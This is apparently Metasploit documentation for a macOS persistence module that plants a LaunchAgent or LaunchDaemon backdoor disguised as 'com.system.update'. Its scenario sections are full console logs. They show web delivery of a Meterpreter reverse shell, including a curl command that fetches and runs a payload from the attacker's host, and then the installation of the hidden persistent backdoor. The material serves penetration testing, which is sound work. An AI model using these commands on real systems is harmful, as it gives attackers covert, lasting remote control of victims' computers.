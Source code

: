 ## Vulnerable Application

This module provides a persistent boot payload by creating a launch item, which can be
a LaunchAgent or a LaunchDaemon. LaunchAgents run with user level permissions and are triggered
upon login by a plist entry in `~/Library/LaunchAgents`. LaunchDaemons run with
elevated privilleges, and are launched before user login by a plist entry in the `~/Library/LaunchDaemons` directory.
In either case the plist entry specifies an executable that will be run before or at login.

Verified on OSX 11.7.10 (Big Sur), 13.7.4 (Ventura)

## Verification Steps

1. Start msfconsole
1. Get a shell
1. Do: `use exploit/osx/persistence/launch_plist`
1. Do: `run`
1. You should get a shell.

## Options

### BACKDOOR_PATH

Path to hide the backdoor on the target. Defaults to `~/Library/.<random>/com.system.update`

### KEEPALIVE

Continually restart the payload exe if it crashes/exits. Defaults to `true`

### RUN_NOW

Run the installed payload immediately. Defaults to `false`

### LAUNCH_ITEM

Type of launch item, see description for more info. Choices are `LaunchAgent`, `LaunchDaemon`. Default is `LaunchAgent`

## Scenarios

### 13.7.4

Initial access via web delivery

```
[*] Processing /root/.msf4/msfconsole.rc for ERB directives.
resource (/root/.msf4/msfconsole.rc)> setg verbose true
verbose => true
resource (/root/.msf4/msfconsole.rc)> setg lhost 111.111.1.111
lhost => 111.111.1.111
resource (/root/.msf4/msfconsole.rc)> use exploit/multi/script/web_delivery
[*] Using configured payload python/meterpreter/reverse_tcp
resource (/root/.msf4/msfconsole.rc)> set target 8
target => 8
resource (/root/.msf4/msfconsole.rc)> set srvport 8383
srvport => 8383
resource (/root/.msf4/msfconsole.rc)> set payload payload/osx/x64/meterpreter_reverse_tcp
payload => osx/x64/meterpreter_reverse_tcp
resource (/root/.msf4/msfconsole.rc)> set lport 4747
lport => 4747
resource (/root/.msf4/msfconsole.rc)> set URIPATH m
URIPATH => m
resource (/root/.msf4/msfconsole.rc)> run
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
[*] Started reverse TCP handler on 111.111.1.111:4747 
[*] Using URL: http://111.111.1.111:8383/m
[*] Server started.
[*] Run the following command on the target machine:
curl -sk --output 8D4tNTA4 http://111.111.1.111:8383/m; chmod +x 8D4tNTA4; ./8D4tNTA4& disown
[msf](Jobs:1 Agents:0) exploit(multi/script/web_delivery) > 
[*] 222.22.2.2       web_delivery - Delivering Payload (815032 bytes)
[*] Meterpreter session 1 opened (111.111.1.111:4747 -> 222.22.2.2:49156) at 2025-02-19 19:04:25 -0500
[msf](Jobs:1 Agents:1) exploit(multi/script/web_delivery) > use exploit/osx/persistence/launch_plist 
[*] No payload configured, defaulting to osx/x64/meterpreter/reverse_tcp
[msf](Jobs:2 Agents:1) exploit(osx/persistence/launch_plist) > sessions -i 1
[*] Starting interaction with 1...
(Meterpreter 1)(/Users/macos) > getuid
Server username: macos
(Meterpreter 1)(/Users/macos) > sysinfo
Computer     : 20.20.20.21
OS           : macOS Ventura (macOS 13.7.4)
Architecture : x86
BuildTuple   : x86_64-apple-darwin
Meterpreter  : x64/osx
```

Persistence

```
[msf](Jobs:1 Agents:1) exploit(osx/persistence/launch_plist) > set session 1
session => 1
[msf](Jobs:1 Agents:1) exploit(osx/persistence/launch_plist) > set payload payload/osx/x64/meterpreter_reverse_tcp
payload => osx/x64/meterpreter_reverse_tcp
[msf](Jobs:1 Agents:1) exploit(osx/persistence/launch_plist) > exploit
[*] Exploit running as background job 1.
[*] Exploit completed, but no session was created.
[msf](Jobs:2 Agents:1) exploit(osx/persistence/launch_plist) > 
[*] Started reverse TCP handler on 111.111.1.111:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. /Users/macos/Library is writable
[*] Dropping backdoor executable...
[+] Backdoor stored to /Users/macos/Library/.QVecGcAF/com.system.update
[+] LaunchAgent added: /Users/macos/Library/LaunchAgents/com.system.update.plist
[+] LaunchAgent installed successfully.
[*] To remove the persistence, run:
rm -rf /Users/macos/Library/.QVecGcAF ; rm /Users/macos/Library/LaunchAgents/com.system.update.plist ; launchctl remove com.system.update ; launchctl stop com.system.update
[*] Meterpreter-compatible Cleaup RC file: /root/.msf4/logs/persistence/20.20.20.21_20250219.0704/20.20.20.21_20250219.0704.rc
[msf](Jobs:2 Agents:1) exploit(osx/persistence/launch_plist) > sessions -i 1
[*] Starting interaction with 1...
(Meterpreter 1)(/Users/macos) > shell
Process 2138 created.
Channel 8 created.
launchctl load -w /Users/macos/Library/LaunchAgents/com.system.update.plist
[*] Meterpreter session 5 opened (111.111.1.111:4444 -> 222.22.2.2:49157) at 2025-02-19 19:11:23 -0500
```